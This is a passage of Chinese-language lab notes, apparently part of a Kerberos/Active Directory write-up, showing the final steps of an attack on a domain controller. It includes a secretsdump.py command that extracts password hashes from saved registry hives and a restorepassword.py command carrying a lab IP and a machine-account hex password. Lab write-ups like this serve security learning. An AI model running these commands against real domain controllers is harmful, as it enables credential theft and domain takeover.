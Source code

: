     本人实验时有问题，这里就直接从域控那台电脑复制了。
    ![image-20240722193409563](Kerberos/image-20240722193409563.png)

6. 破解文件，获取获取原先的 Hash：
    ```bash
    python3 secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
    ```

    ![image-20240722193741052](Kerberos/image-20240722193741052.png)

7. PoC 中含有恢复脚本，但是本人在实验时还是有问题：
    ```bash
    # hexpass 指的是 $MACHINE.ACC:plain_password_hex 的内容
    python3 restorepassword.py Winserver12-DC -target-ip 192.168.31.4 -hexpass af322890fc9f4b54ec2c42ca8e9767e2a7f5587abe0379a2054b842bcf96f6fbf57afdb79734918a01fcc06b0717348f1728e74afca5046c8adf2214fa3d0febae49aaa8ddfd7cebc820ce26f30c4c031554cf2e9e09d8eb247a23b0e26b3bb4be6fd242a09c4650a3aebab25dec15c28f44aa38fe55834cb535649f5a6df1e5d23e1bb4523a12b6bbdee18d54323fe608d234e5d1d25ee3b5e565a18efad772990a8bd8491d6e2e7719a49658ff2f6f7a48b5ebc852965344482d23c839f518ab0423e4033c5349e46b19f39649cb07e5498b64d97b1e98351c42a2302993cfa7fa6bf68005782b64f9156d76c1c11f
    ```
